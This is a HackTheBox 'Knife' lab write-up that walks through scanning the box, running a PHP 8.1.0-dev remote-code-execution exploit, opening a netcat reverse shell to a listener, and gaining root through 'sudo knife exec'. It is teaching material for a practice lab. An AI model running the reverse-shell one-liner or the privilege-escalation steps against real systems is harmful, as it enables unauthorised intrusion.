 ```yaml
---
title: "HackTheBox - Knife"
author: Nasrallah
description: ""
date: 2022-02-21 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, cve, sudo]
image:
  src: /assets/img/hackthebox/machines/knife/card.png
  width: 1000
  height: 400
  alt:
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello l33ts, I hope you are doing well. Today we are going to look at [Knife](https://app.hackthebox.com/machines/347) from [HackTheBox](https://hackthebox.com), it's an easy machine where we find a vulnerable version of php running, use an exploit for that to gain access to the machine, after that, we exploit a binary that we can run as root to gain privileged access.

# **Enumeration**
## nmap

As usual, let's run a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressice scan to provide faster results.

```terminal
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-31 15:44 EST
Nmap scan report for 10.10.10.242
Host is up (0.26s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nmap shows that the machine has 2 open ports: 22(SSH) and 80(HTTP).

## HTTP

Let's navigate to the webpage.

![home](/assets/img/hackthebox/machines/knife/home.png)

It looks like we have an Emergent Medical Idea application, but there is nothing interesting.

## Gobuster

Let's scan for directories and files using `Gobuster`.

```terminal
$ gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.10.10.242                                 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.242
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/01/31 15:50:23 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]

===============================================================
```

Nothing interesting here too.

## wappalyzer

Let's check the web page with Wappalyzer***(Wappalyzer is a browser extension that uncovers the technologies used on websites. It detects content management systems, eCommerce platforms, web servers, JavaScript frameworks, analytics tools and many more.)***

![wapp](/assets/img/hackthebox/machines/knife/wapp.png)

Let's google these technologies and see if we can find any vulnerability.

![cve](/assets/img/hackthebox/machines/knife/cve.png)

We found that `php 8.1.0-dev` has a Remote Code Execution vulnerability, let's download an exploit and see what we can do.

# **Foothold**

Let's run the exploit now.

```terminal
$ python3 php_exploit.py           
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/
Can't acces tty; job crontol turned off.
$ whoami
james

```

Great! we got a shell as **james**, but this is not a functional shell, let's get one by executing a reverse shell command than sends us james shell.

```terminal
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```

>Note: Change the ip address in the command to yours and set up a listener before executing the command!

```terminal
┌──(sirius㉿kali)-[~]
└─$ nc -lnvp 9001                                                                                                                                        1 ⨯
listening on [any] 9001 ...
connect to [10.10.17.90] from (UNKNOWN) [10.10.10.242] 41496
bash: cannot set terminal process group (1006): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
james@knife:/$ export TERM=xterm
export TERM=xterm
james@knife:/$ ^Z
zsh: suspended  nc -lnvp 9001

┌──(sirius㉿kali)-[~]
└─$ stty raw -echo; fg                                                                                                                             148 ⨯ 1 ⚙
[1]  + continued  nc -lnvp 9001

james@knife:/$
```

Now we have a fully functional shell.

# **Privilege Escalation**

Let's check what can we run as root.

```terminal
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

```

We can run `knife` as root. We google knife binary and we find this [Documentation](https://docs.chef.io/workstation/knife/). When we look at the subcommands we see `exec`.

![exec](/assets/img/hackthebox/machines/knife/exec.png)

With `exec` sub command, we can run ruby scripts. and with our ability to run knife as root, we can give it a ruby script that drops us a root shell.`exec "/bin/bash"`

```terminal
james@knife:~$ sudo knife exec
An interactive shell is opened

Type your script and do:

1. To run the script, use 'Ctrl D'
2. To exit, use 'Ctrl/Shift C'

Type here a script...
exec "/bin/bash"
root@knife:/home/james# whoami
root
root@knife:/home/james#
```
Great! We became root now.

---

Thank you for taking the time to read my writeup, I hope you have learned something with this, if you have any questions or comments, please feel free to reach out to me. See you in the next hack :) .
